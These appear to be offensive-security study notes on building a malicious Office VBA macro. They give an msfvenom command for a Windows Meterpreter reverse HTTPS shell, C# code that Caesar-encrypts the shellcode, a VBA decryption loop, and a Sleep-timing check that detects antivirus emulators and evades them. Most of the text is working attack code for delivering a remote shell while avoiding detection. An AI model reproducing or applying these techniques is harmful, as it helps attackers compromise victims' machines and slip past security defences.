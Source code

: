 Generate Shellcode

    sudo> msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication

We'll reuse the previous C# project to encrypt the shellcode and then copy the encrypted result into the VBA macro. For a VBA format, we'll use decimal values instead of hexadecimal. 

we need to generate VBA format shellcode and use it in our existing Casesar Cipher C# Helper program. 

Caesar cipher encryption routine:

    1   byte[] encoded = new byte[buf.Length];
    2   for(int i = 0; i < buf.Length; i++)
    3   {
    4     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
    5   }
    6 
    7   uint counter = 0;
    8 
    9   StringBuilder hex = new StringBuilder(encoded.Length * 2);
    10  foreach(byte b in encoded)
    11  {
    12    hex.AppendFormat("{0:D}, ", b);
    13    counter++;
    14    if(counter % 50 == 0)
    15    {
    16        hex.AppendFormat("_{0}", Environment.NewLine);
    17    }
    18  }
    19  Console.WriteLine("The payload is: " + hex.ToString());

When executing the VBA shellcode runner(in Macro), we must also implement a decryption routine. 

    For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
    Next i

Using Sleep function to detect antivirus emulator:

    Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
    ...
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    
    t1 = Now()
    Sleep (2000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    
    If time < 2 Then
        Exit Function
    End If
    ...

    
